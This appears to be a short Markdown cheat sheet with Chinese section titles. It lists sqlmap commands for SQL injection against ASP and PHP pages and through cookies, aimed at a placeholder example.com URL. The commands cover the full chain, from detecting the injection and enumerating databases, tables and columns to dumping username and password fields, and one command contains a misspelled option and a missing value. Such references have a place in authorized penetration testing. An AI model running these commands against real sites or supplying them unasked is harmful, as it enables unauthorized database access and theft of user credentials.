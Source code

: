 [001.sqlmap注入asp程序](001.sqlmap注入asp程序.md)
---

```bash
sqlmap -u "http://www.example.com/news.asp?id=110" 
```

```bash
sqlmap -u "http://www.example.com/news.asp?id=110"   --tables
```

```bash
 sqlmap -u "http://www.example.com/news.asp?id=110" --columns -T "user"
```

```bash
 sqlmap -u "http://www.example.com/news.asp?id=110" --dump -C "username,password" -T "user"
 ```
 
[002.sqlmap注入php程序](002.sqlmap注入php程序.md)
 ---
 
 ```bash
 sqlmap -u "http://www.example.com/news.php?id=110" 
 ```

 ```bash
 sqlmap -u "http://www.example.com/news.php?id=110"  --is-dba
 ```
 
 ```bash
  sqlmap -u "http://www.example.com/news.php?id=110"  --dbs
 ```
 
 ```bash
  sqlmap -u "http://www.example.com/news.php?id=110" --current-db
 ```
 
 ```bash
  sqlmap -u "http://www.example.com/news.php?id=110" --tables -D "db"
 ```
  
 ```bash
  sqlmap -u "http://www.example.com/news.php?id=110" --colums -T "admin_user" -D 
 ```
 
 [003.sqlmap之cookie注入](003.sqlmap之cookie注入.md)
 ---

 ```bash
 sqlmap -u "http://www.example.com/news.php" --cookie "id=110" --level 2
 ```
 
 ```bash
 sqlmap -u "http://www.example.com/news.php" --columns -T "user" --cookie "id=110" --level 2
 ```
 
 ```bash
 sqlmap -u "http://www.example.com/news.php" --dump  -C "username,password" -T "user"  --cookie "id=110" --level 2
 ```
